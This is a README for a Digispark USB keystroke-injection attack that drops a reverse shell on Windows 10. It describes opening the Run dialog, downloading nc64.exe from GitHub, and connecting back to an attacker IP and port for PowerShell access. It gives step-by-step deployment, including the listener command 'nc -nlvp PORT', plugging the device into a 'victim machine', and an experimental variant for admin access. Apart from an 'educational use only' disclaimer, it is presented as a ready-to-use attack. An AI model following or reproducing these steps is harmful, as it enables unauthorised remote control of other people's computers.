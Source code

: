 **EDUCATIONAL USE ONLY, USE AT YOUR OWN RISK!**
# Digispark - Reverse shell, Windows 10
For more details, see our documentations: []()

Opens up Run in Windows.    
Using keystroke injections, downloads `nc64.exe` from:    
https://github.com/int0x33/nc.exe

Calls the attacker, using downloaded `nc64.exe` and opens up a powershell access from attacker.
## How to use:

*Designed, using Finnish keyboard in victim machine.*     
- Check [DigiKeyboardFi](https://github.com/therealhalonen/DigiKeyboardFi) for support it.    
- Download the .ino, or copy the code.    
- Open the file or paste the content to/in Arduino IDE.
- Define:
	-  `-ArgumentList \'Attacker_IP\', \'Attacker_Port\',`
- Upload to Digispark
- Establish the listener to attacker machine:
	- `nc -nlvp PORT`

- Plug in to victim machine
- **PROFIT!**
---
**Note:**   
Folders:   
- [experimental](https://github.com/therealhalonen/PhishSticks/tree/master/digispark/digispark_revshell/experimental)
	- Contains experimental stuff, to open up the Powershell from victim as Admin user for attacker to get "instant roots"
- [old](https://github.com/therealhalonen/PhishSticks/tree/master/digispark/digispark_revshell/old) 
	- One of the first drafts to initially getting the reverse shell to work